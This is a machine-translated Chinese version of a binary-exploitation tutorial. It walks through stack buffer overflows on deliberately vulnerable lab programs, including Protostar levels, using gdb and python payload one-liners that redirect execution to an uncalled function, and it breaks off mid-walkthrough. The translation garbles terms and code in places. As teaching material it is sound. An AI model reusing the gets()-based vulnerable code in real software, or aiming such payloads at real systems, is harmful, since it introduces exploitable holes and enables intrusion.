# 二进制开发艺术 0x 000001[基于堆栈的溢出]

> 原文：<https://infosecwriteups.com/into-the-art-of-binary-exploitation-0x000001-stack-based-overflow-50fe48d58f10?source=collection_archive---------0----------------------->


黑客是指那些编写代码和利用代码的人。

亲爱的黑客和信息安全爱好者们，✋🏻

在这里，我打算发布一系列关于“**二进制开发**”的文章。如你所知，这是黑客空间的一个巨大的核心领域。在我开始之前，坦率地说，对于没有计算机科学背景的人来说，这可能不值得他们花时间&我希望/希望我会尽可能使它变得简单。写所有的基础知识是不舒服的，所以我只写重点。如果你有一个好的基础，那么你会喜欢跟随。

# 什么是二进制剥削？？

二进制利用是网络安全中的一个广泛话题，归结为找到程序中的漏洞，并利用它来控制外壳或修改程序的功能。计算机能够理解的语言部分称为“二进制”计算机以二进制运行，这意味着它们只使用 0 和 1 来存储数据和进行计算。在布尔逻辑中，一个二进制数字只能代表真(1)或假(0)。每种语言都有其独特的特性，尽管编程语言之间往往存在共性。它的工作原理是将弱点转化为优势，即利用缺陷或漏洞来导致意外或未预料到的行为。

> ⚡先决条件
> 
> ➜编程基础，汇编(64 位)，Linux 终端使用。

所以让我们从一个简单的**基于堆栈的缓冲区溢出**开始

# 缓冲区溢出

有两种不同类型的缓冲区溢出攻击。这些是基于堆栈和基于堆的缓冲区溢出。在这两种情况下，这种类型的利用利用了等待用户输入的应用程序。它会导致程序崩溃或执行任意代码。当一个程序试图用超过预期容量的数据填充一个内存块(内存缓冲区时，就会发生缓冲区溢出。攻击者通过覆盖应用程序的内存来利用缓冲区溢出问题。缓冲区溢出是软件应用程序中常见的漏洞，利用这些漏洞可以实现远程代码执行(RCE)或执行拒绝服务(DoS)攻击。最简单也是最常见的缓冲区溢出是指缓冲区在堆栈上。缓冲区溢出的最重要原因是使用了不自动监控内存缓冲区或堆栈限制以防止(基于堆栈的)缓冲区溢出的编程语言。这些语言包括 C 和 C++语言。下面给出一个例子。

# 示例 C 程序

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>char *gets(char *);void abracadabra() {  
 printf("Success..! Function called :D\n");  
 exit(0);  
}int main(int argc, char **argv) {  
 struct {  
 char buffer[64];  
 volatile int (*point)();  
 } hackvist;  

 hackvist.point = NULL;  
 gets(hackvist.buffer);  

 if (hackvist.point) {  
 printf("Function Pointer → %p\n", hackvist.point);  
 fflush(stdout);  
 hackvist.point();  
 } else {  
 printf("Try Again\n");  
 }  

 exit(0);  
}
```

> 如果你对 C 编程有所了解，你就会明白上面的代码是如何工作的。如果有点迷茫？等等，让我澄清一下。

> **我们的目标:**执行不必要的功能“咒语”

该代码提供了一个函数“abracadabra ”,它在任何地方都不会被调用。它包含一个大小为“64”的缓冲区和一个指针“*point”。point 的值被设置为 NULL，代码通过 gets()请求用户输入。gets()从标准输入(stdin)中读取字符，并将它们作为 C 字符串存储到 str 中，直到到达换行符或文件结尾。随后，检查“指针值”(我们将它设置为缺省值)并打印该值。如果仍然，值为空？然后“再试一次”被打印出来。让我们编译并运行这个程序。



报警信息

**代码编译成功&准备执行。编译程序时，您会看到一条警告消息。在许多情况下，人们避免警告，每个人都关心“错误”。**

> 警告:“gets”函数很危险，不应使用。

# **为什么中计()是危险的？？**

这是不安全的，因为它假设了一致的输入。千万不要用！您不应该使用 gets，因为它无法阻止缓冲区溢出。它不对其输入的大小执行边界检查。攻击者可以轻松地向 gets()发送任意大小的输入，使目标缓冲区溢出。如果用户输入更多的数据，那么很可能会以损坏或更坏的结果告终。

我通过提供一些输入来运行程序。程序显示同样的输出“**再试一次**”。



输出

这假设“else”语句被打印出来。

> if (hackvist.point) {
> printf("函数指针→ %p\n "，hack vist . point)；
> fflush(stdout)；
> hack vist . point()；
> **}**else {
> printf("重试\ n ")；***//*这个*//*
> }**

**这意味着指针值仍然为空。" hackvist.point = NULL "。所以让我们开始吧。**

> **意图是颠覆执行流程&运行函数“abracadabra”。让我们开始调试代码。**

****

> **首先，我要中断 main，不带任何输入地运行。**
> 
> **0x119a 处的 b 主
> 断点 1**

**我通过输入 ni 跳过每条指令。终于到了 gets()函数的地步。我没有提供任何值和分析流**

****

**je 在 gets()之后**

**正如我所说的，我没有提供任何值作为输入。代码正常执行。指针值为空，因此执行“else”语句。结果如下所示。**

********

**执行的代码**

**现在，是时候通过传递值来进行分析了。缓冲区大小是 64，所以我们将以可识别的格式传递这些值。所以很好理解。为此，我做了一个简单的 python 2 liner。**

****

**利用. py**

> **我们必须使用它作为输入，所以我做得很简单，
> python exploit.py > exp**
> 
> **主电源(断开主电源)**
> 
> **r < exp (run our python script as input)**

****

**flow changed**

**The flow is changed! It overruns the buffer’s boundary and overwrites adjacent memory locations. So the pointer value is also changed from NULL !!**

****

**if (hackvist.point) {
printf("函数指针→ %p\n "，hack vist . point)；**

> **在连续执行 else 语句后，我们在
> if (hackvist.point) { printf("函数指针→ %p\n "，hack vist . point)；**
> 
> *****NB:指针值被改变！*****

**继续倪的过程，我们可以发现一些有趣的东西。**

****

**分段故障**

# ****分段故障****

**分段错误(又名 segfault)是导致程序崩溃的常见情况。这是由于程序试图访问不允许访问的内存位置，或者试图以不允许的方式访问内存位置。所以，我们走上正轨了。现在我们可以传递相同的输入“r < exp “ on gdb and analyze the register to confirm where the Overflow occurs!**

**By jumping next to the next instruction (ni) we’ll reach the point right before segf. The register values can analyze via python. The chr() method returns a string representing a character whose Unicode code point is an integer.**

****

**info registers**

**In the previous example, we saw “Function Pointer → 0x5252525251515151\n”. We understand “Q” & “R” seem to be overflowed, & specific values are stored into the pointer after the buffer. So as the program “hackvist.point(); “ is called. Our intention is to run the function “abracadabra”. Obviously, if we placed the address of the function in the pointer, the program will call the function. Let’s check the address of “abracadabra”.**

****

**0x555555555179**

**我们得到了函数的地址。现在我们可以稍微编辑一下 python 脚本了。我们必须以合适的方式放置 0x 5555555179 &必须考虑**字节序**。为此，我清除了 Q 的溢出，因为我们知道输入是可识别的模式。我将地址“0x555555555179”添加到有效载荷&中，保存它以供完成装订部移动。**

****

**最终利用**

**让我们运行这个 python exploit . py > exp & " r< exp” on gdb, in the same way, we used to do before. Now we can see that our aim is successful. The pointer value is now the address of “the function abracadabra”.**

****

**use ni for jumping**

**value of hackvist.point = the address of the function we wanna call. So,
" hack vist . point()；调用函数“abracadabra”。我们可以执行这个功能。**

****

**执行函数“abracadabra”。**

****Yaay！我们的目标完成了**😈😈**

****

**1337 H4x06**

> ****现在让我们来解决剥削教育带来的同样的模式化挑战。我们可以把命令行本身作为一种策略。****

****

**源代码**

**正如我们所做的，这里的目的是调用函数“ **complete_level** ”。
我们可以简单的通过 objdump 找到它的地址。**

> **objdump-d ./stack-three | grep complete _ level**

****

**地址是:40069d**

**我们必须把这个地址放到指针值中，然后它会调用这个函数。
一个简单的 python 一行程序就足以通过溢出缓冲区来非常有效地解决这一挑战。结果如下所示。**

> **很简单，通过输入
> python-c ' print " A " * 64+" \ x9d \ x06 \ x40 " ' |。/stack-三**

****

**万岁！我们做到了**

*****没有“函数指针变量”和“没有修改变量”怎么办！！我们能执行一个函数吗？？*****

****Ans:** 当然！**

****

## **来源于剥削教育→原始人**

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

**我们需要重定向程序的执行流，并执行 win 函数，该函数不应该在理想情况下执行。*没有" f* ***功能指针变量*** *和* ***没有修改变量*** *。我们可以溢出堆栈上的返回指针，而不是溢出一个局部变量。它将读取错误的值&转而运行。***

# **让我们尝试溢出缓冲区并增加它，直到我们得到一个分段错误消息。**

```
user@protostar:/opt/protostar/bin$ python -c 'print("A"*64)' | ./stack4
user@protostar:/opt/protostar/bin$ python -c 'print("A"*70)' | ./stack4
